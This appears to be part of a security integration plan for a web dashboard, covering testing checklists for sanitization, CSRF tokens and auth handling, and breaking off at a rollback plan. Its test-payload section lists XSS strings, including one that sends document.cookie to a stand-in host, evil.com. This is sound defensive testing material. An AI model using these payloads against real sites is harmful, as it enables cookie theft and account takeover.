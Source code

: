 
## 7. Testing Strategy

### 7.1 Pre-Integration Testing
- [ ] Verify dashboard-security-utils.js loads without errors
- [ ] Verify all exported functions are available
- [ ] Test sanitizeHTML() with XSS payloads
- [ ] Test CSRF token generation
- [ ] Test auth manager initialization

### 7.2 Post-Integration Testing
- [ ] All API calls include Authorization header
- [ ] All POST requests include X-CSRF-Token header
- [ ] XSS payloads in character names are sanitized
- [ ] XSS payloads in behavior names are sanitized
- [ ] Memory stays stable over 1-hour session
- [ ] All intervals stop on page unload
- [ ] Toast elements are properly cleaned up
- [ ] 401 responses trigger auth handler
- [ ] Dashboard remains functional after security changes

### 7.3 Test Payloads

```javascript
// XSS Test Payloads
const xssTests = [
    "<script>alert('XSS')</script>",
    "<img src=x onerror=alert('XSS')>",
    "<iframe src='javascript:alert(1)'></iframe>",
    "Luke<script>fetch('http://evil.com?c='+document.cookie)</script>",
    "\"><svg/onload=alert('XSS')>",
    "javascript:alert('XSS')"
];

// Inject via WebSocket message:
{
    type: 'character_vision_data',
    character_name: xssTests[0], // Should be sanitized
    character_reaction: xssTests[1] // Should be sanitized
}

// CSRF Test - Create test HTML page:
// test_csrf_attack.html
```

---

## 8. Rollback Plan

### If Integration Fails:
